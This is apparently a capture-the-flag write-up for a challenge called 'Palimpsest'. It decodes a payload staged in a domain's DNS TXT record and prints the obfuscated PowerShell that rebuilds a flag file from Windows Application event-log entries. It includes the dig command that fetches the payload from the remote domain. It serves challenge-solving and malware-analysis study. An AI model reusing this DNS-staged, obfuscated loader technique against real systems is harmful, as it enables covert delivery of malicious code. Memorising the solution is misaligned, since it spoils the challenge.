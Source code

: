 # Palimpsest

`Updater Service.xml` gets a payload from `5aa456e4dbed10b.pyrchdata.com` via DNS (TXT record).

Use Binary Refinery to extract the payload (doable by hand but annoying):

```shell
% dig +short -t TXT 5aa456e4dbed10b.pyrchdata.com | r.resub '[" ]' '' | r.csd b64 | r.csd b64 | r.zl | r.csd intarray | r.xor h:5d
$01Idu9 =[tYPE]("{1}{2}{0}"-f 'e','io','.fiL') ; ${a} = 40000..65000; ${b} =  $01Idu9::("{1}{0}{2}" -f 'ri',("{1}{0}" -f'penW','O'),'te').Invoke((Join-Path -Path ${EnV
:a`P`p`DAta} -ChildPath flag.mp4)); Get-EventLog -LogName ("{0}{2}{1}{3}" -f 'Ap','licati','p','on') -Source ("{0}{2}{1}"-f'mslnstal','er','l') | ? { ${A} -contains ${
_}."In`st`AnCe`iD" } | Sort-Object Index | % { ${C} = ${_}."d`ATa"; ${b}.("{1}{0}"-f 'ite','Wr').Invoke(${C}, 0, ${C}."LeN`GTh") }; ${b}.("{1}{0}" -f ("{0}{1}" -f 'los
','e'),'C').Invoke()
```

Pay close attention to the `-LogName ("{0}{2}{1}{3}" -f 'Ap','licati','p','on')` and ` -Source ("{0}{2}{1}"-f'mslnstal','er','l')` part.

Looking at that it seems it extracts data from `Application` log, something that is called `mslnstaller`. Grep is
industry standard way of parsing XML data, remember that! (lol)

```shell
% evtx_dump Application.evtx | grep -i mslnstaller -A25 | grep '<Binary>' | r.carve uppercase-hex | r.hex > flag.mp4
```
